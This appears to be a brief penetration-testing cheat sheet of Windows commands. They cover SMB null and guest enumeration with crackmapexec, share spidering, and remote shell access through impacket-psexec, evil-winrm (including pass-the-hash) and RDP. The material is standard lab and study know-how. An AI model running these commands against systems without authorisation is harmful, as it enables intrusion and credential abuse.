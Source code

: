 

Add domain NB name to /etc/hosts

```shell
crackmapexec smb $TARGET_IP -u '' -p ''
```

Show all files and DIRs for guest:

```shell
crackmapexec smb $TARGET_IP -u 'guest' -p '' -M spider_plus
```

Parse the JSON from the previous cmd into readable form:

```shell
cat $TARGET_IP.json | jq '. |map_values(keys)'
```

Try to connect to console:

```shell
impacket-psexec $USER@$TARGET_IP
```

```shell
evil-winrm -i $TARGET_IP -u administrator -p $PASSWORD
```

```shell
evil-winrm -i $TARGET_IP -u administrator -H $HASH
```

```sh
crackmapexec winrm $TARGET_IP -u $USER -p $PASSWORD
```


Port 3389 RDP:

```sh
xfreerdp /v:$TARGET_IP /u:$USER
```